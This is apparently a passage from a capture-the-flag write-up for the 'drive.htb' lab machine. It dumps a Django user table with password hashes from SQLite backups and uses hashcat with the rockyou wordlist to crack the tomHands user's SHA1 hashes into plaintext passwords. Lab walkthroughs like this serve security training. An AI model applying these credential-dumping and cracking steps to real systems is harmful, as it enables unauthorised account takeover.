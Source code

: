 The PBKDF2 hashes failed, but the four SHA1 (124 | Django (SHA-1)) hashes did (belonging to the tomHands user).

```bash
sqlite> .tables
accounts_customuser                   auth_permission
accounts_customuser_groups            django_admin_log
accounts_customuser_user_permissions  django_content_type
accounts_g                            django_migrations
accounts_g_users                      django_session
auth_group                            myApp_file
auth_group_permissions                myApp_file_groups

sqlite> select * from accounts_customuser;
16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
21|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=|2022-12-24 22:39:42.847497|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04.637591
22|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=|2022-12-24 12:55:10.152415|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02.230289
23|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=|2022-12-26 06:20:23.299662|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=|2022-12-24 16:51:53.717055|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15.072407


sqlite> select * from accounts_customuser;
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45

$ hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316

sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141|2022-12-26 06:02:42.401095|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372

$ hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool

sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372

$ hashcat -m 124 ../../hashes/sha1-hashes.txt /usr/share/wordlists/rockyou.txt.gz
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
```
